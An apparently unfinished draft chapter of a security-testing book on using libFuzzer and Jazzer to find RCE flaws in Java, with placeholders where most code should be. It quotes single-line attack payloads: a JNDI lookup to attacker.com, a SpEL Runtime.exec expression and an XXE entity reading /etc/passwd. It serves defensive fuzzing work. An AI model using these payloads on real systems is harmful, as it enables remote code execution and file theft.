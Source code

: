 == Chapter 2: Fix Input Processing Failures Through RCE Discovery

*Tool Requirements:* libFuzzer, Jazzer, OpenJDK, Maven/Gradle, Docker

*Learning Objectives:*

* Master libFuzzer workflow through concrete Java RCE vulnerability discovery
* Build detection harnesses for four major enterprise vulnerability classes
* Integrate comprehensive security monitoring with systematic input testing
* Understand libFuzzer as the foundation for language-specific fuzzing variants

*Vulnerability Classes Covered:*

* JNDI injection vulnerabilities in logging frameworks causing remote code execution
* JSON deserialization failures leading to arbitrary object instantiation and RCE
* Expression language injection enabling direct code execution through templates
* XML external entity processing allowing file system access and RCE escalation

=== libFuzzer Fundamentals: Process-Internal Security Testing

libFuzzer executes inside your application's process rather than forking new processes for each test case, eliminating startup overhead while enabling high-throughput security testing. You compile your target function with libFuzzer instrumentation, and it systematically calls that function with different inputs while tracking code coverage. When libFuzzer discovers inputs that crash your code or reach new execution paths, it automatically preserves them for further exploration.

This execution model proves particularly effective for discovering security vulnerabilities in string processing logic. Most enterprise RCE vulnerabilities occur during input parsing - JSON deserialization, XML processing, template evaluation, and log message interpolation. libFuzzer's ability to execute millions of test cases per second makes it practical to discover the complex input combinations that trigger these vulnerabilities.

The libFuzzer approach forms the conceptual foundation for Jazzer (Java), Atheris (Python), and Jazzer.js (JavaScript). Master these concepts through Java implementation, and you'll understand how to apply systematic vulnerability discovery across your entire technology stack.

==== When libFuzzer Excels at Security Testing

libFuzzer provides advantages over file-based fuzzing approaches when testing library functions that process structured input formats. Applications that parse JSON, XML, log messages, or template expressions benefit from libFuzzer's function-level testing approach because it focuses exploration on the specific parsing logic where vulnerabilities commonly occur.

String processing vulnerabilities often require specific input combinations to trigger reliably. A JNDI injection might need precise syntax within a logging message. A deserialization vulnerability might require specific JSON structure with particular type annotations. libFuzzer's coverage-guided exploration systematically discovers these combinations rather than relying on random generation.

Security-focused fuzzing requires high execution throughput because many vulnerabilities have low trigger probability. Finding a SpEL injection payload might require testing millions of template combinations. libFuzzer's persistent execution mode enables this systematic exploration without the performance overhead of process creation.

==== Coverage-Guided Security Discovery

libFuzzer tracks which code paths each input explores and prioritizes inputs that reach previously unexplored areas. This coverage feedback proves crucial for security testing because vulnerabilities often hide in error handling paths, edge case processing, or rarely-executed validation logic.

When fuzzing JSON deserialization, random JSON typically exercises only the primary parsing paths. Coverage-guided exploration systematically discovers the type annotation processing, error recovery mechanisms, and polymorphic object creation logic where deserialization vulnerabilities commonly occur.

[PLACEHOLDER:CODE libfuzzer_java_setup. Basic libFuzzer integration with Jazzer showing compilation, execution, and coverage tracking for Java security testing. Include harness structure and build configuration. Medium value.]

The systematic nature of coverage-guided exploration enables discovery of vulnerability combinations that manual testing rarely encounters. Security vulnerabilities often result from unexpected interactions between input validation, error handling, and business logic processing.

==== Building Your First Security Detection Harness

Before diving into specific vulnerability patterns, understanding the basic harness structure enables effective security testing across all vulnerability types. A security-focused libFuzzer harness differs from standard fuzzing harnesses because it must detect exploitation attempts rather than just crashes.

The fundamental security harness pattern includes input generation, target function invocation, and exploitation detection. Unlike functional testing harnesses that simply call target functions, security harnesses must monitor system interactions that indicate successful attacks.

[,java]
----
public class BasicSecurityHarness {
    @FuzzTest
    void detectSecurityViolations(FuzzedDataProvider data) {
        String input = data.consumeString(1000);

        try (SecurityMonitor monitor = new SecurityMonitor()) {
            // Call target function with fuzzer input
            targetFunction.processInput(input);

            // Check for security violations
            if (monitor.detectedViolation()) {
                throw new SecurityException("Attack detected");
            }
        } catch (ProcessingException e) {
            // Expected parsing errors are acceptable
        }
    }
}
----

Security monitoring must capture exploitation indicators without generating false positives from normal application behavior. This requires understanding baseline application activity and distinguishing legitimate operations from attack patterns.

Common monitoring patterns include network connection tracking, process creation detection, file system access monitoring, and JVM state inspection. Each vulnerability type requires appropriate monitoring combinations to detect successful exploitation reliably.

===== Common Harness Development Mistakes

Overly restrictive input validation in harnesses prevents discovery of edge cases where vulnerabilities commonly occur. Security harnesses should allow malformed input to reach target processing logic while monitoring for exploitation rather than rejecting suspicious input prematurely.

Insufficient state cleanup between fuzzing iterations causes false positives when previous test cases affect subsequent monitoring. Security harnesses must reset monitoring state completely between iterations to ensure detection accuracy.

Monitoring overhead that significantly reduces fuzzing throughput limits vulnerability discovery effectiveness. Security harnesses require balancing comprehensive monitoring against execution performance to maintain practical fuzzing rates.

===== Debugging Harness Effectiveness

When security harnesses fail to discover known vulnerabilities, systematic debugging identifies common problems. First, verify that fuzzer input reaches vulnerable code paths by adding logging or breakpoints in target functions.

Monitor system activity during manual exploitation attempts to confirm that monitoring systems detect attack indicators correctly. If manual attacks don't trigger monitoring alerts, the detection logic requires adjustment before fuzzing can succeed.

Examine fuzzing statistics to ensure adequate input diversity and coverage growth. Security vulnerabilities often require specific input combinations that systematic exploration must discover through sufficient iteration diversity.

=== Enterprise RCE Discovery: Four Critical Vulnerability Patterns

Enterprise Java applications face security threats from four primary RCE vulnerability patterns, each targeting different input processing mechanisms. Understanding these patterns enables systematic security testing that covers the attack vectors responsible for major security incidents in production environments.

These vulnerability classes share common characteristics that make them suitable for libFuzzer discovery: string-based input boundaries, complex parsing logic, and clear exploitation indicators. Building detection harnesses for each pattern demonstrates transferable security testing methodology while providing immediate protection against real threats.

==== JNDI Injection in Logging Frameworks

Logging frameworks that perform string interpolation create opportunities for JNDI injection when user-controlled input reaches log message processing. The vulnerability occurs when logging implementations interpret special syntax within log messages as instructions for external resource loading.

[PLACEHOLDER:CODE vulnerable_logging_component. Logging framework implementation with JNDI interpolation vulnerability similar to log4j patterns. Include string processing logic and external lookup mechanisms. High value.]

JNDI injection exploits string interpolation features intended for configuration flexibility. When logging frameworks encounter patterns like `${jndi:ldap://attacker.com/payload}` within log messages, they interpret this as an instruction to perform external lookups, potentially loading malicious code from attacker-controlled servers.

The attack surface includes any code path where external input reaches logging statements. Web application request processing, error handling, and audit logging commonly introduce user-controlled content into log messages without adequate sanitization.

===== Building JNDI Injection Detection Harnesses

Effective JNDI injection discovery requires harnesses that monitor for external network connections during log message processing. The harness provides fuzzer-generated input to logging functions while detecting unauthorized network activity that indicates successful injection.

[PLACEHOLDER:CODE jndi_injection_harness. Complete libFuzzer harness for discovering JNDI injection vulnerabilities including network monitoring, input generation, and detection logic. High value.]

Network monitoring during fuzzing enables immediate detection of JNDI lookup attempts. When the fuzzer generates input that triggers external DNS queries or LDAP connections, the monitoring system captures this as evidence of injection vulnerability.

Input generation for JNDI injection discovery benefits from understanding common injection patterns. While random string generation occasionally produces injection syntax, structured generation that incorporates known JNDI patterns increases discovery efficiency.

[PLACEHOLDER:CODE jndi_payload_generation. Structured input generation for JNDI injection discovery including common patterns, protocol variations, and evasion techniques. Medium value.]

==== JSON Deserialization Vulnerabilities

JSON deserialization vulnerabilities occur when parsing libraries automatically instantiate objects based on type information embedded within JSON input. This functionality, intended to support polymorphic object serialization, enables attackers to specify arbitrary classes for instantiation during parsing.

[PLACEHOLDER:CODE vulnerable_json_processor. JSON deserialization component with polymorphic type handling vulnerability patterns similar to Jackson default typing issues. Include object instantiation and type resolution logic. High value.]

The vulnerability mechanism relies on type annotation features that allow JSON to specify which Java class should be instantiated during parsing. When enabled, these features interpret JSON like `{"@class":"dangerous.Class","property":"value"}` as instructions to create instances of the specified class.

Exploitation typically involves identifying classes available in the application classpath that perform dangerous operations during construction or property setting. Common targets include classes that execute commands, make network connections, or access the file system during object initialization.

===== Deserialization RCE Detection Through Process Monitoring

Deserialization RCE detection requires monitoring for unexpected process creation or system calls during JSON parsing. Since exploitation typically involves executing operating system commands, process monitoring provides reliable detection of successful attacks.

[PLACEHOLDER:CODE jackson_rce_harness. libFuzzer harness for detecting JSON deserialization RCE including process monitoring, structured JSON generation, and gadget chain detection. High value.]

Process monitoring during deserialization fuzzing captures command execution attempts that indicate successful RCE exploitation. The monitoring system tracks process creation, file system access, and network connections that occur during JSON parsing but outside normal application behavior.

Structured JSON generation for deserialization testing requires understanding both valid JSON syntax and dangerous class patterns. The fuzzer must generate syntactically correct JSON while systematically exploring type annotations that might trigger object instantiation vulnerabilities.

==== Spring Expression Language Template Injection

SpEL injection vulnerabilities occur when applications evaluate user-controlled input as Spring Expression Language expressions. This commonly happens in template processing, dynamic query construction, and configuration parameter evaluation where user input reaches SpEL parsing logic.

[PLACEHOLDER:CODE vulnerable_spel_processor. Spring Expression Language processing component with template injection vulnerability including expression evaluation and context handling. High value.]

SpEL provides powerful expression evaluation capabilities including access to Java classes, method invocation, and system property manipulation. When user input is evaluated as SpEL expressions, attackers can leverage this functionality to execute arbitrary code through expressions like `#{T(Runtime).getRuntime().exec('commands')}`.

Template processing represents a common attack vector because applications often allow user customization of output formatting through template expressions. Without proper input validation, these templates become vehicles for code injection.

===== SpEL Injection Detection Through Execution Monitoring

SpEL injection detection requires comprehensive monitoring for code execution, file system access, and system property modifications during expression evaluation. Since SpEL provides broad access to JVM functionality, successful exploitation can manifest through various system interactions.

[PLACEHOLDER:CODE spel_injection_harness. libFuzzer harness for discovering SpEL injection vulnerabilities including execution monitoring, template generation, and expression evaluation detection. High value.]

Template generation for SpEL injection discovery benefits from understanding expression syntax and available functionality. The fuzzer should systematically explore method invocation patterns, class access mechanisms, and property manipulation expressions that could lead to code execution.

==== XML External Entity Processing Vulnerabilities

XXE vulnerabilities occur when XML parsers process external entity declarations within document input. This feature, intended to support document modularity and external resource inclusion, enables attackers to access local files or trigger network requests through malicious entity definitions.

[PLACEHOLDER:CODE vulnerable_xml_processor. XML document processing component with external entity vulnerability including entity resolution and document parsing logic. High value.]

XML external entity processing interprets document type definitions that reference external resources. When XML contains declarations like `<!ENTITY xxe SYSTEM "file:///etc/passwd">`, vulnerable parsers attempt to resolve these references, potentially exposing file system contents or enabling network-based attacks.

The attack surface includes any XML processing functionality that accepts external input, including document parsing, configuration loading, and data import operations. Many XML parsers enable external entity processing by default, creating widespread vulnerability potential.

===== XXE Detection Through File System Monitoring

XXE detection requires monitoring for unauthorized file system access and network connections during XML parsing. Since exploitation typically involves reading local files or making external requests, file system and network monitoring provide reliable attack detection.

[PLACEHOLDER:CODE xxe_detection_harness. libFuzzer harness for discovering XXE vulnerabilities including file system monitoring, XML generation, and entity resolution detection. High value.]

XML generation for XXE discovery requires understanding entity declaration syntax and common attack patterns. The fuzzer should systematically explore external entity references, parameter entities, and nested entity structures that might trigger vulnerability exploitation.

==== Troubleshooting Security Detection Failures

When security harnesses fail to discover vulnerabilities that manual testing confirms exist, systematic troubleshooting identifies and resolves common problems. Security fuzzing failures typically result from inadequate monitoring, insufficient input diversity, or harness implementation issues.

===== Diagnosing Monitoring Problems

Monitoring systems must detect the specific exploitation indicators that each vulnerability type produces. JNDI injection requires network monitoring for external lookups, while deserialization RCE needs process monitoring for command execution. Verify monitoring effectiveness by manually triggering known exploits and confirming detection.

Network monitoring failures often result from DNS caching, connection pooling, or asynchronous lookup mechanisms that occur outside the monitoring window. Extend monitoring duration and capture all network activity during fuzzing iterations to ensure detection coverage.

Process monitoring must distinguish between legitimate subprocess creation and exploitation attempts. Many Java applications spawn processes during normal operation, requiring filtering to identify unauthorized execution that indicates successful RCE.

===== Improving Input Generation Effectiveness

Random input generation rarely produces the structured syntax required for complex vulnerability exploitation. JNDI injection requires specific interpolation patterns, while XXE needs valid XML with malicious entity declarations. Structured generation dramatically improves discovery rates.

Input constraints that prevent malformed content from reaching vulnerable code paths reduce fuzzing effectiveness. Security harnesses should allow syntactically invalid input to exercise error handling paths where vulnerabilities commonly occur.

Coverage analysis reveals whether fuzzer input reaches vulnerable code sections. When coverage remains low in security-critical parsing logic, examine input validation that might prevent fuzzer-generated content from exercising target functionality.

===== Performance Optimization for Security Fuzzing

Security monitoring overhead can reduce fuzzing throughput below practical levels for vulnerability discovery. Monitor fuzzing statistics to ensure execution rates remain sufficient for systematic exploration of input spaces.

Excessive monitoring granularity creates performance bottlenecks without proportional security benefit. Focus monitoring on high-level exploitation indicators rather than detailed system call tracking to maintain fuzzing efficiency.

Persistent mode implementation requires careful resource cleanup to prevent monitoring interference between fuzzing iterations. Reset all monitoring state explicitly between test cases to maintain detection accuracy while preserving performance benefits.

==== Adapting Security Testing to Your Applications

The four vulnerability patterns demonstrate general methodology that applies to diverse application architectures and input processing scenarios. Successful adaptation requires understanding your application's specific input boundaries, processing mechanisms, and exploitation characteristics.

===== Identifying Security-Critical Input Boundaries

Application security testing begins with mapping input boundaries where external data reaches processing logic. Web applications typically have HTTP request parameters, headers, and body content as primary boundaries. Desktop applications might process configuration files, command-line arguments, or document imports.

Input boundary analysis focuses on data that external users control and that reaches parsing or evaluation logic. User profile data that gets stored and later processed represents an indirect input boundary that security testing should cover.

Consider data flow paths that transform input through multiple processing stages. XML configuration that gets parsed, validated, and then evaluated as expressions represents multiple potential vulnerability points requiring comprehensive testing.

===== Customizing Monitoring for Application Context

Each application requires monitoring strategies appropriate to its runtime environment and exploitation risks. Web applications might need HTTP response monitoring to detect injection attacks, while desktop applications require file system monitoring for unauthorized access attempts.

Cloud-native applications running in containers require monitoring strategies that account for container boundaries and orchestration platforms. Network monitoring must distinguish between legitimate service communication and exploitation attempts.

Database-driven applications need query monitoring to detect SQL injection alongside the standard process and network monitoring. ORM frameworks might require monitoring for unusual object instantiation patterns during deserialization attacks.

===== Scaling Detection Patterns to New Vulnerability Types

When encountering unfamiliar vulnerability types, apply the systematic approach demonstrated across the four patterns: understand the exploitation mechanism, identify detection indicators, implement appropriate monitoring, and generate inputs that explore the vulnerability space.

Buffer overflow vulnerabilities in native libraries require memory corruption detection rather than process monitoring. API rate limiting bypasses need request pattern analysis rather than system call monitoring. Each vulnerability type has characteristic exploitation indicators that enable systematic detection.

Template engines beyond SpEL follow similar injection patterns but with different syntax and evaluation contexts. The monitoring approach remains consistent while input generation adapts to specific template syntax and available functionality.

===== Integrating Security Testing with Development Workflows

Security testing integration depends on application development patterns and team preferences. Test-driven development teams can incorporate security harnesses alongside functional tests, running both during development cycles.

Continuous integration environments require balancing security testing comprehensiveness against build performance constraints. Short-running security tests can execute on every commit while comprehensive campaigns run during off-hours or release preparation.

Local development security testing provides immediate feedback during coding but requires careful resource management to avoid impacting development productivity. Lightweight monitoring and focused input generation enable practical security testing during active development.

=== Connecting the Four Vulnerability Patterns

Each vulnerability pattern demonstrates the same fundamental libFuzzer methodology applied to different input processing scenarios. JNDI injection, JSON deserialization, SpEL evaluation, and XXE processing all follow identical discovery approaches: identify input boundaries, build appropriate monitoring, generate structured inputs, and detect exploitation indicators.

This consistency enables systematic security testing across diverse application components. When you encounter new input processing logic, apply the same methodology: understand the parsing mechanism, identify potential exploitation paths, implement detection monitoring, and generate inputs that explore the vulnerability space systematically.

=== Chapter Summary: Systematic Security Vulnerability Discovery

You have built practical expertise in discovering enterprise Java RCE vulnerabilities through systematic libFuzzer testing. The four vulnerability patterns covered - JNDI injection, JSON deserialization, SpEL injection, and XXE processing - represent the primary attack vectors affecting production Java applications.

*Hands-On Security Testing Skills:*

The detection harnesses you've implemented provide immediate security value for Java development while demonstrating transferable methodology. The monitoring patterns for process creation, network access, and file system interaction apply across programming languages and vulnerability types.

Structured input generation techniques enable efficient discovery of complex vulnerability patterns that random testing rarely encounters. Understanding how to generate JNDI injection payloads, polymorphic JSON, SpEL expressions, and XXE entity declarations provides practical security testing capabilities.

*libFuzzer Mastery Through Concrete Application:*

You've learned libFuzzer fundamentals through hands-on vulnerability discovery rather than abstract concepts. This practical approach builds confidence in coverage-guided fuzzing while delivering immediately useful security testing skills.

The harness development patterns you've mastered - input boundary identification, appropriate monitoring, and structured generation - transfer directly to testing other vulnerability types and input processing scenarios.

*Foundation for Multi-Language Security Testing:*

The libFuzzer concepts and monitoring patterns transfer directly to Atheris for Python web applications, Jazzer.js for JavaScript services, and other language-specific fuzzing implementations. The security vulnerability patterns occur across programming languages with similar exploitation characteristics.

Understanding coverage-guided security testing through Java implementation prepares you for systematic vulnerability discovery across your entire technology stack. The same principles of input boundary identification, structured generation, and execution monitoring apply regardless of implementation language.

*Systematic Methodology for Novel Vulnerabilities:*

The detection framework you've built provides methodology for discovering vulnerability classes beyond the four patterns covered. When new attack techniques emerge, the same approach applies: identify input boundaries, understand exploitation indicators, implement appropriate monitoring, and generate structured inputs that explore the vulnerability space.

Security testing through libFuzzer transforms vulnerability discovery from reactive investigation to proactive verification. Instead of learning about security issues through incident response, you systematically verify that your input processing logic handles malicious input safely.

Your security testing expertise now includes both the technical implementation skills and the analytical methodology needed to discover critical vulnerabilities before they affect production systems. This proactive security verification capability provides protection against the attack patterns that have historically caused significant security incidents in Java applications.
